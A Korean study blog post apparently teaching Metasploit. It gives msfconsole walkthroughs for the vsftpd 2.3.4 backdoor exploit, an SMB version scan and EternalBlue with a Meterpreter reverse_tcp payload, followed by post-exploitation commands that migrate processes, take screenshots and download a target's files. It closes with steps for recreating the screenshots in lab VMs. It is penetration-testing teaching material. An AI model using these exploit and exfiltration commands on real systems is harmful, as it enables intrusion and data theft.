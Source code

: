 ```yaml
---
layout: post
title: "Metasploit Framework 공부"
date: 2025-09-26 17:00:00 +0900
categories: Study 해킹 툴
---
```


### 1. 개요

Metasploit Framework(MSF)는 취약점 연구, 익스플로잇 코드 개발 및 실행을 위한 오픈소스 플랫폼이다. 정보 수집 · 취약점 스캔 · 익스플로잇 · 페이로드 실행 등 침투 테스트의 전 과정을 체계적으로 수행할 수 있는 환경을 제공한다.

개별 도구를 따로 사용하는 대신 `msfconsole`이라는 통합된 인터페이스 안에서 다양한 모듈을 조합하여 공격을 수행할 수 있다는 것이 가장 큰 특징이다.

---

### 2. 핵심 구성 요소

*   **Exploits (익스플로잇):** 취약점을 직접 공격하는 코드이다. 운영체제 · 서비스 · 애플리케이션 등 다양한 대상의 취약점을 공격하는 수천 개의 익스플로잇 모듈이 내장되어 있다.
*   **Payloads (페이로드):** 익스플로잇이 성공한 후 대상 시스템에서 실행되는 코드이다. 가장 대표적인 페이로드가 리버스 쉘을 연결하는 `meterpreter`나 `shell`이다.
*   **Auxiliary (보조 모듈):** 직접적인 공격 외에 정보 수집 · 스캐닝 · 퍼징 등 보조적인 작업을 수행하는 모듈이다. 포트 스캐너나 특정 서비스의 버전 정보를 확인하는 용도로도 사용된다.

---

### 3. 기본 사용 흐름

`msfconsole` 내에서의 작업은 일반적으로 다음의 흐름을 따른다.

1.  **`search [키워드]`**: 공격할 서비스나 취약점과 관련된 모듈을 검색한다.
2.  **`use [모듈 이름]`**: 사용할 익스플로잇이나 보조 모듈을 선택한다.
3.  **`show options`**: 선택한 모듈에 설정해야 할 옵션들을 확인한다. `RHOSTS`, `LHOST`
4.  **`set [옵션 이름] [값]`**: `RHOSTS`(대상 IP) `LHOST`(공격자 IP) 등 필요한 옵션을 설정한다.
5.  **`run` 또는 `exploit`**: 설정된 값으로 모듈을 실행한다.

---

### 4. 사용 예시: vsftpd 백도어 공격

알려진 백도어 취약점이 있는 `vsftpd 2.3.4` 버전을 대상으로 Metasploit을 이용해 시스템 쉘을 획득하는 상황이다.

```bash
# 1. msfconsole 실행
msfconsole

# 2. vsftpd 관련 모듈 검색
msf6 > search vsftpd

# 3. 백도어 익스플로잇 모듈 선택
msf6 > use exploit/unix/ftp/vsftpd_234_backdoor

# 4. 옵션 확인
msf6 exploit(...) > show options

# 5. 대상 IP 설정
msf6 exploit(...) > set RHOSTS 192.9.200.11

# 6. 공격 실행
msf6 exploit(...) > exploit
```
[여기에 Metasploit vsftpd 공격 성공 이미지 삽입]

`exploit` 명령 실행 후 익스플로잇이 성공하면 대상 서버의 `root` 권한 쉘이 획득된 것을 확인할 수 있다. `whoami` 명령어를 통해 이를 증명할 수 있다.

---

### 5. 사용 예시 2: 보조 모듈을 이용한 정보 수집 (SMB 스캔)

Metasploit은 직접적인 공격 외에도 `Auxiliary` 모듈을 통해 다양한 정보 수집 활동을 수행할 수 있다. 예를 들어 `smb_version` 모듈은 대상 서버의 SMB(윈도우 파일 공유) 서비스 버전을 확인하는 데 사용된다.

```bash
# 1. SMB 버전 스캔 모듈 검색 및 선택
msf6 > search smb_version
msf6 > use auxiliary/scanner/smb/smb_version

# 2. 대상 IP 설정
msf6 auxiliary(...) > set RHOSTS 192.9.200.11

# 3. 스캐너 실행
msf6 auxiliary(...) > run
```
[여기에 Metasploit SMB 스캔 결과 이미지 삽입]

`run` 명령 실행 후 대상 서버의 운영체제 정보와 Samba 버전 정보가 출력된다. 이 정보는 추후 해당 버전에 맞는 익스플로잇을 찾는 데 사용될 수 있다.

---

### 6. 사용 예시 3: Meterpreter를 이용한 시스템 제어

Metasploit의 가장 강력한 기능은 **Meterpreter** 페이로드에 있다. Meterpreter는 일반 쉘과 달리 메모리 상에서만 동작하며, 파일 시스템 정보 수집, 프로세스 제어, 권한 상승 등 침투 테스트에 특화된 다양한 기능을 제공한다.

이 예시는 윈도우 시스템의 SMB 취약점(MS17-010, 이터널블루)을 공격하여 Meterpreter 세션을 획득하고 시스템을 제어하는 과정을 보여준다.

#### **1. 익스플로잇 및 페이로드 설정**
```bash
# 이터널블루 익스플로잇 모듈 선택
msf6 > use exploit/windows/smb/ms17_010_eternalblue

# 옵션 확인 및 대상 IP(RHOSTS), 공격자 IP(LHOST) 설정
msf6 exploit(...) > set RHOSTS [Target Windows IP]
msf6 exploit(...) > set LHOST [Attacker IP]

# 페이로드를 Meterpreter로 설정 (보통 자동으로 설정됨)
msf6 exploit(...) > set PAYLOAD windows/x64/meterpreter/reverse_tcp

# 공격 실행
msf6 exploit(...) > exploit
```

#### **2. Meterpreter 세션 활용**
공격에 성공하면 `meterpreter >` 라는 새로운 프롬프트가 나타난다. 여기서는 일반 쉘 명령어와 다른 Meterpreter 전용 명령어를 사용할 수 있다.

*   **시스템 정보 확인:**
    ```meterpreter
    sysinfo     # 대상 시스템의 운영체제, 아키텍처 등 기본 정보 확인
    getuid      # 현재 세션이 어떤 사용자 권한으로 실행 중인지 확인 (예: NT AUTHORITY\SYSTEM)
    ```
*   **프로세스 제어:**
    ```meterpreter
    ps          # 현재 실행 중인 프로세스 목록 확인
    migrate [PID] # Meterpreter 세션을 다른 안정적인 프로세스(예: explorer.exe)로 이전하여 연결 지속성을 높임
    ```
*   **파일 시스템 및 정보 탈취:**
    ```meterpreter
    ls          # 현재 디렉터리의 파일 목록 확인
    download C:\\Users\\user\\Desktop\\secret.txt .  # 대상 PC의 파일을 공격자 PC로 다운로드
    screenshot  # 대상 PC의 현재 화면을 스크린샷으로 캡처
    ```

[여기에 Meterpreter 세션 획득 및 명령어 실행 이미지 삽입]

이처럼 Meterpreter는 단순한 원격 제어를 넘어 시스템을 분석하고 정보를 탈취하며 공격의 흔적을 숨기는 등 고도화된 침투 테스트 작업을 효율적으로 수행할 수 있는 환경을 제공한다.

<hr class="short-rule">





### 시각 자료(이미지) 제작을 위한 스크립트

#### **Metasploit vsftpd 공격 성공 이미지 제작**

1.  (준비) 공격 대상 서버에 취약한 버전의 `vsftpd 2.3.4`를 설치하고 실행시켜 둡니다.
2.  공격자 PC에서 `msfconsole`을 실행합니다.
3.  위 `4. 사용 예시` 섹션에 있는 2번부터 6번까지의 명령어를 순서대로 `msfconsole`에 입력하고 실행합니다.
4.  마지막 `exploit` 명령이 성공하면, `Command shell session 1 opened` 라는 메시지와 함께 대상 서버의 쉘 프롬프트가 나타납니다.
5.  획득한 쉘에서 `whoami` 명령어를 입력하여 `root`가 출력되는 것을 보여줍니다.
6.  `msfconsole` 시작부터 `whoami` 명령어 결과까지 모든 과정이 하나의 터미널 창에 순서대로 모두 표시된 상태에서, 터미널 창 전체를 스크린샷으로 찍습니다.
7.  이미지 편집 프로그램을 사용하여 스크린샷을 엽니다.
8.  세 부분에 하이라이트를 적용하여 공격의 흐름을 명확히 보여줍니다.
    *   **선택:** `use exploit/unix/ftp/vsftpd_234_backdoor` 명령어 부분
    *   **설정:** `set RHOSTS 192.9.200.11` 명령어 부분
    *   **결과:** `Command shell session 1 opened` 메시지와 `whoami` 결과인 `root` 부분
9.  수정된 이미지를 저장하여 게시글에 삽입합니다.

#### **이미지 2 제작 (SMB 스캔 결과)**

1.  (준비) `msfconsole`의 새 창을 열거나, 이전 세션에서 `back` 명령어로 초기 상태로 돌아옵니다.
2.  위 `5. 사용 예시 2`의 `search`부터 `run`까지의 명령어를 순서대로 입력합니다.
3.  `run` 명령이 성공하면 `Host is running ... (Samba ...)` 와 같이 대상 서버의 OS와 Samba 버전 정보가 포함된 결과가 출력됩니다.
4.  이 과정이 모두 포함된 터미널 화면을 스크린샷으로 찍습니다.
5.  이미지 편집 프로그램을 사용하여 `use auxiliary/...` 명령어와, 결과로 출력된 `Host is running...` 라인 전체에 하이라이트를 적용하여 저장합니다.

#### **이미지 3 제작 (Meterpreter 세션 획득 및 활용)**

1.  (준비) 공격 대상이 될 취약한 윈도우 가상머신(예: Metasploitable 3)을 준비한다.
2.  `msfconsole`에서 위 `6. 사용 예시 3`의 1단계 명령어를 순서대로 입력하여 공격을 실행한다.
3.  `exploit` 명령이 성공하면, `meterpreter session 1 opened` 메시지와 함께 `meterpreter >` 프롬프트가 나타난다.
4.  획득한 Meterpreter 세션에서 `sysinfo`와 `getuid` 명령어를 차례로 실행하여 시스템 정보와 `NT AUTHORITY\SYSTEM` 권한을 확인한다.
5.  `ps` 명령어를 실행하여 프로세스 목록이 출력되는 것을 보여준다.
6.  `msfconsole` 시작부터 `ps` 명령어 결과까지 모든 과정이 하나의 터미널 창에 순서대로 표시된 상태에서, 터미널 창 전체를 스크린샷으로 찍는다.
7.  이미지 편집 프로그램을 사용하여 스크린샷을 엽니다.
8.  세 부분에 하이라이트를 적용하여 공격의 흐름을 명확히 보여준다.
    *   **설정:** `set RHOSTS`, `set LHOST` 등 옵션 설정 부분
    *   **세션 획득:** `meterpreter session 1 opened` 메시지 부분
    *   **명령 실행:** `sysinfo`, `getuid`, `ps` 명령어와 그 결과 부분
9.  수정된 이미지를 저장하여 게시글에 삽입한다.